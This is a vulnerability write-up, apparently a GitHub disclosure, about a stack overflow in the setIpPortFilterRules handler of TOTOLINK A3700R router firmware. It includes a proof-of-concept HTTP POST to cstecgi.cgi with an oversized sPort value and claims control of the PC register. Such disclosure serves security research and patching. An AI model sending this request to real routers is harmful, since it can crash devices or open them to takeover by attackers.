 # TOTOLINK_A3700R_V9.1.2u.6165_20211012has a stack overflow vulnerability

## Overview

- Firmware download address: https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip
- Manufacturer's website information：https://www.totolink.net/

## Product Information

TOTOLink A3700R V9.1.2u.6165_20211012 router, the latest version of simulation overview：

![image-20240104001414887](image/image-20240104001414887.png)

## Vulnerability details

![image-20240104003136849](image/image-20240104003136849.png)

In setIpPortFilterRules function

`v8 v9` is formatted into `V16` through sprintf function, and` v8 v9` is the value of `sPort ePort` we enter. The size of the format string is not limited, resulting in stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```bash
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.48.128:1234
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 86
Origin: http://192.168.48.128:1234
Connection: close
Referer: http://192.168.48.128:1234/login.html
Cookie: SESSION_ID=2:1700540000:2

{
"topicurl":"setIpPortFilterRules",
"addEffect":"1",
"sPort":"X"*0x1000
}
```

![image-20240104003912667](image/image-20240104003912667.png)

![image-20240104004341560](image/image-20240104004341560.png)

The above figure shows the POC attack effect

![image-20240104003415337](image/image-20240104003415337.png)

As shown in the figure above, we can hijack PC registers.

![image-20240104003435194](image/image-20240104003435194.png)
